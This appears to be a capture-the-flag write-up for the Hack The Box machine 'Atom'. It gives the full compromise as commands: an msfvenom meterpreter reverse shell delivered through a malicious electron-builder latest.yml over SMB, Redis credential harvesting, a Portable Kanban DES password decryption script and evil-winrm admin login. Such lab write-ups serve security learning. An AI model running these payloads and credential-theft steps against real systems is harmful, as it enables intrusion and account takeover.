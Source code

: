 IP: 10.10.10.237
System: windows

referense to atom editor ? 
Lets start by focus on things that have something to do with programming / software.

add the ip to hosts.
````bash
echo "10.10.10.237 atom.htb" >> /etc/hosts
````

## Nmap scan
|port|service|
|---|---|
|80|http|
|135|msrpc|
|443|https|
|445|SMB|
|5985|http|
|6379|redis|
|7680|pando-pub?|

On the http/https is the same page, which allows you to download a program for windows. 

lets try SMB port
#smbclient
````bash
smbclient atom.htb
````

This will display interresting shares, lets start with software_updates there might be something there

````bash
smbclient atom.htb\Software_updates
````

````bash
smbclient -N "\\\\atom.htb\Software_Updates"
````

get download the pdf, no need to look at the other folder as they are empty.

Look to be a user acception test document. 


````bash
get UAT_Testing_procesudres.pdf
````

What we learn from the document is that the application is built on "electron-builder"

https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

From the blog posts we learn that the signature verfication process in electron-builder is string comparison between the install binary publisherName and cerf common name. 

let try out exploit first with msfvenom.  

````bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.200 LPORT=8765 -f exe -o "trustme.exe"
````

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set Lhost 10.10.14.200
set lport 8765
````

Create you yml file

````yml
version: 1.2.3
path: http://10.10.14.200/trustme.exe
sha512: <hash>

````

````python
python3 -m http.server
````

login back into the smb and put in the latest.yml file inside one of the clients.

````smb
cd client1
put latest.yml
````

lets wait and see if anything happens. 

and we got shell. 

````cmd
more c:\users\jason\desktop\user.txt
````

## admin
I always wanted to try something like WINPEAs and see if it works. 

upload the file using meterpreter

````ps
winPEASx64.exe servicesinfo
````

from the winPEAS we learn about a service called redis
Going to the redis folder we see a conf file

````bash
cd c:\program files\Redis
type redis.windows.service.conf
#output
requirepass kidvscat_yes_kidvscat

````

install redis-cli is you do not have it.

````bash
apt intall redis-tools
redis-cli -h atom.htb -a <password>
keys * 
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
````

{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"

And we got the hash -> Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
Now the question is how do we get the password?

while using the winpeasx64 I saw the jason having Portable kanban inside his downloable folder, lets see if they use the same password for that as his admin account. 
Portable-kanban stores password as encryption format des and the same key is used for every product. 

google *Portable kanban encrypted password* and you get a python script for how to decrypt the hash. but it uses the pk3 file as argument but as we allready have the hash lets just that instead, and just alway everything we do not need. 

````py
 import base64
from des import * #python3 -m pip install des

try:
    hash = base64.b64decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi")
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
````

And we got the admin password.
Decrypted Password : kidvscat_admin_@123

lets use the windows remote management to get access as admin on the machine, it a SOAP based protocol that allows hardware and operation systems from diffrent vendors to interoperate.
here a nice tool to get access to it.
https://github.com/Hackplayers/evil-winrm


````bash
sudo gem install evil-winrm
evil-winrm -i 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'
````

And we got root access.